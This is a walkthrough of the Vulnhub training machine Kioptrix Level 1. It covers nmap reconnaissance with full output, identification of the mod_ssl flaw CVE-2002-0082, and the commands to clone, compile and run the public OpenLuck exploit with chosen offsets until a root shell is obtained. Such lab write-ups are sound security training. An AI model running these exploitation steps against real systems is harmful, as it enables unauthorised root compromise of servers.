









# Kioptrix Level 1


**Platform**: Vulnhub
**Difficulty Level**: Easy
**IP Address/Target UR**L: 192.168.29.17
**Date**: September 3, 2024
**Objective**: The goal is to acquire root access on the Kioptrix machine using basic tools and techniques for vulnerability assessment and exploitation.

## Enumeration
### Initial Reconnaissance
#### **Tools Used** : Nmap

Finding the IP address of the machine:

```bash
nmap -sn 192.168.29.1/24
```



Running a full port scan:

```bash
# nmap -v -p- 192.168.29.17 -oN nmap_initial_scan.txt

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-03 16:48 EDT
Initiating ARP Ping Scan at 16:48
Scanning 192.168.29.17 [1 port]
Completed ARP Ping Scan at 16:48, 0.03s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 16:48
Completed Parallel DNS resolution of 1 host. at 16:48, 0.00s elapsed
Initiating SYN Stealth Scan at 16:48
Scanning 192.168.29.17 [65535 ports]
Discovered open port 443/tcp on 192.168.29.17
Discovered open port 139/tcp on 192.168.29.17
Discovered open port 80/tcp on 192.168.29.17
Discovered open port 22/tcp on 192.168.29.17
Discovered open port 111/tcp on 192.168.29.17
Discovered open port 32768/tcp on 192.168.29.17
Completed SYN Stealth Scan at 16:48, 13.15s elapsed (65535 total ports)
Nmap scan report for 192.168.29.17
Host is up (0.00027s latency).
Not shown: 65529 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
139/tcp   open  netbios-ssn
443/tcp   open  https
32768/tcp open  filenet-tms
MAC Address: 08:00:27:7B:60:42 (Oracle VirtualBox virtual NIC)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.30 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

### Results:
The following ports were discovered to be open:

- 22/tcp: OpenSSH 2.9p2 (protocol 1.99)
- 80/tcp: Apache httpd 1.3.20 ((Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
- 111/tcp: rpcbind
- 139/tcp: NetBIOS-SSN (Samba smbd)
- 443/tcp: Apache with SSL
- 32768/tcp: status (RPC)

### Service Enumeration
#### Focused Enumeration:

After identifying the open ports, I proceeded with service detection to gather more information about the running services.

```bash
# nmap -v -p 22,80,111,139,443,32768 -sC -sV -A 192.168.29.17 -oN nmap_services_scan.txt

PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey: 
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS TRACE
|_  Potentially risky methods: TRACE
111/tcp   open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1          32768/tcp   status
|_  100024  1          32768/udp   status
139/tcp   open  netbios-ssn Samba smbd (workgroup: 5MYGROUP)
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: md5WithRSAEncryption
| Not valid before: 2009-09-26T09:32:06
| Not valid after:  2010-09-26T09:32:06
| MD5:   78ce:5293:4723:e7fe:c28d:74ab:42d7:02f1
|_SHA-1: 9c42:91c3:bed2:a95b:983d:10ac:f766:ecb9:8766:1d33
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: 400 Bad Request
|_ssl-date: 2024-09-04T00:52:05+00:00; +3h59m59s from scanner time.
| http-methods: 
|_  Supported Methods: GET HEAD POST
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|_    SSL2_DES_192_EDE3_CBC_WITH_MD5
32768/tcp open  status      1 (RPC #100024)
MAC Address: 08:00:27:7B:60:42 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:linux_kernel:2.4
OS details: Linux 2.4.9 - 2.4.18 (likely embedded)
Uptime guess: 0.018 days (since Tue Sep  3 16:26:01 2024)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=194 (Good luck!)
IP ID Sequence Generation: All zeros

Host script results:
| nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   KIOPTRIX<00>         Flags: <unique><active>
|   KIOPTRIX<03>         Flags: <unique><active>
|   KIOPTRIX<20>         Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   MYGROUP<00>          Flags: <group><active>
|   MYGROUP<1d>          Flags: <unique><active>
|_  MYGROUP<1e>          Flags: <group><active>
|_clock-skew: 3h59m58s
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE
HOP RTT     ADDRESS
1   0.47 ms 192.168.29.17
```

### Results
- Port 22: OpenSSH 2.9p2 (protocol 1.99) supporting SSHv1
- Port 80: Apache httpd 1.3.20 with mod_ssl 2.8.4 (OpenSSL 0.9.6b)
- Port 111: rpcbind 2 (RPC #100000)
- Port 139: Samba smbd (workgroup: MYGROUP)
- Port 443: Apache/1.3.20 with SSL enabled
- Port 32768: status 1 (RPC #100024)

## Vulnerability Identification
### Identifying Vulnerabilities
#### Apache and mod_ssl:
The Apache version (1.3.20) along with mod_ssl (2.8.4) is known to be vulnerable to CVE-2002-0082.



#### Research and References:
The vulnerability allows remote attackers to execute arbitrary code via a crafted request to mod_ssl.

## Exploitation
### Initial Exploit
#### Exploit Used: [OpenLuck (CVE-2002-0082)](https://github.com/heltonWernik/OpenLuck)



Clone the exploit repository:
```bash
git clone https://github.com/heltonWernik/OpenLuck.git
```



Install dependencies:
```bash
apt-get install libssl-dev
```



Compile the exploit:

```bash
gcc -o OpenFuck OpenFuck.c -lcrypto
```
Ignore any errors during compilation.

Run exploit: 

```bash
./OpenFuck
```



It gave us the list of offsets along with the version of OS and Apache.
We have Redhat and Apache version 1.3.20

Now use grp command to get the offset of our use. 

```bash
./OpenFuck | grep 1.3.20
```



We will try both ```0x6a``` and ```0x6b```
First Let's try ```0x6a```

```bash
./OpenFuck 0x6a 192.168.29.17 443 -c 40
```



This exited by saying GoodBye!

Let's try ```0x6b```

```bash
./OpenFuck 0x6b 192.168.29.17 443 -c 50
```



This directly gave us the root shell


